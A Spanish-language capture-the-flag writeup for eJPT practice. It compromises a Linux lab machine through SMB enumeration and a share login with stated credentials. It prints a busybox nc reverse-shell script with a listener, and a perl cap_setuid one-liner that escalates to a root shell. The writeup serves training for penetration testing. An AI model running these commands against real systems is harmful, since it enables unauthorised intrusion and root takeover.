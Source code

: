 
---

## Writeup: Explotación de Máquina Linux

### 1. **Reconocimiento Inicial**

Se realiza un reconocimiento sobre la máquina para obtener información básica, identificar servicios y posibles vectores de ataque. Durante este proceso, descubrimos que el puerto **445** (SMB) está abierto en la máquina de destino, lo que indica que puede estar ejecutando un servidor **Samba**.

### 2. **Enumeración de SMB**

Se utiliza el comando `netexec smb` para obtener información sobre los servicios SMB de la máquina remota:

```bash
netexec smb 1.2.3.4
```

El servicio SMB revela que la máquina está ejecutando **Samba** en un entorno **Linux**, específicamente una versión de Samba 4.17.12-Debian.

A continuación, se realiza una enumeración de los recursos compartidos SMB mediante el siguiente comando:

```bash
smbclient -NL //1.2.3.4
```

La salida muestra los recursos compartidos disponibles, como:

- **print$**: Drivers de impresora.
- **tmp**: Directorio temporal.
- **IPC$**: Servicio IPC de Samba.

### 3. **Exploración del Recurso Compartido**

Se accede al recurso **`tmp`** con las credenciales obtenidas y se explora su contenido:

```bash
smbclient -U "xerosec%david1" //1.2.3.4/tmp
```

Tras acceder al recurso, se sube un **script de reverse shell** (`config.sh`) para obtener acceso remoto como usuario **`xerosec`**.

### 4. **Explotación de Reverse Shell**

El script `config.sh` contiene un comando que abre una conexión de reverse shell en el puerto **443** de la máquina atacante:

```bash
#!/bin/bash 
busybox nc 1.2.3.4 443 -e /bin/bash
```

El script se sube a la máquina víctima y se ejecuta, lo que establece una conexión de reverse shell hacia la máquina atacante.

En el lado de la máquina atacante, se configura un listener con `nc`:

```bash
nc -lvnp 443
```

Una vez ejecutado el script, se establece la conexión y se obtiene acceso como usuario **`xerosec`**.

### 5. **Escalada de Privilegios**

Al realizar la exploración, se detectan permisos de **capabilities** sobre el binario **`perl`**:

```bash
getcap -r /
/usr/bin/perl5.36.0 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/perl cap_setuid=ep
```

El binario **`perl`** tiene el permiso **`cap_setuid=ep`**, lo que permite cambiar el UID a **0 (root)** sin necesidad de privilegios adicionales.

Se utiliza el siguiente **one-liner** para aprovechar el permiso de **setuid** y obtener acceso como **root**:

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Tras ejecutar este comando, se obtiene una shell con privilegios de **root**.

### 6. **Acceso como Root**

Con la shell como **root**, se confirma el cambio de privilegios mediante el siguiente comando:

```bash
id
```

La salida muestra que ahora somos el usuario **root**:

```bash
root@magic:~# id
uid=0(root) gid=1000(xerosec) grupos=1000(xerosec)
```

### 7. **Lectura de las Flags**

Con acceso como **root**, se procede a leer las flags **`user.txt`** y **`root.txt`**, completando exitosamente el ejercicio.

---

### 8. **Conclusión**

- **Reconocimiento y explotación de servicios SMB**.
- **Escalada de privilegios exitosa** utilizando el binario **`perl`** y los permisos de **capabilities**.
- **Acceso como root** y lectura de las **flags** para completar el ejercicio.

Este writeup cubre un ataque desde la **enumeración inicial** hasta la **explotación final**, y es un excelente ejemplo de técnicas que podrían presentarse en el examen **eJPT**.

---
